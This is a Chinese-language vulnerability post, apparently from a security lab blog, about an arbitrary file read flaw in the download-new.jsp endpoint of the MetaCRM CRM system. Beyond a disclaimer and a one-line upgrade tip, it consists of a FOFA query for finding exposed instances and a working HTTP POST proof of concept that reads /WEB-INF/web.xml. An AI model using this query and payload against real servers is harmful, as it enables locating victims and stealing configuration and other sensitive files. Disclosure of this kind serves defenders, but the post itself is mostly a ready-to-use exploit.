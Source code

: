 #  MetaCRM 客户关系管理系统 download-new.jsp 任意文件读取漏洞  
原创 zz  星络安全实验室   2025-07-20 03:48  
  
<table><tbody><tr><td data-colwidth="576"><section><span style="color: rgba(0, 0, 0, 0.9);font-family: &#34;PingFang SC&#34;, system-ui, -apple-system, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-size: 16px;font-style: normal;font-variant-ligatures: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: 0.544px;orphans: 2;text-align: justify;text-indent: 0px;text-transform: none;widows: 2;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration-thickness: initial;text-decoration-style: initial;text-decoration-color: initial;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">免责声明:文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，未授权的攻击属于非法行为!文章中敏感信息均已做多层打码处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责作者不为此承担任何责任，一旦造成后果请自行负责</span></span></section></td></tr></tbody></table>  
漏洞详情：  
  
MetaCRM作为一款智能化的平台型客户关系管理软件，旨在通过优化企业运营流程和协同办公机制，显著提升组织管理效能与业务处理效率，助力企业实现数字化卓越运营。该系统的download-new.jsp接口存在本地文件读取安全缺陷，在特定条件下可能被恶意利用，导致攻击者非法获取服务器文件系统中的敏感数据，从而引发企业机密信息泄露风险。该漏洞属于受限文件读取类型，需及时进行安全加固。  
  
漏洞复现：  
  
fofa：  
```
body="/common/scripts/basic.js" && body="www.metacrm.com.cn"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVfkiankw0tcSNyVgbWw5T3CnOHQ745ibviaUzodc9q2d7HVic4wj16YVGAHicb7b9TYltoUdYD2SjuqJkw/640?wx_fmt=png&from=appmsg "")  
  
poc：  
```
POST /business/common/download-new.jsp HTTP/1.1Host: xxContent-Type: application/x-www-form-urlencodedfilename=1.png&page=/WEB-INF/web.xml
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVfkiankw0tcSNyVgbWw5T3CndxEGQbJKQVtrA0rMH4a2Q5e7QwHwtFYuuYtDTaQH7SqhsIfOS1W5sw/640?wx_fmt=png&from=appmsg "")  
  
  
  
修复建议：  
  
关注厂商动态，升级至安全版本  
  
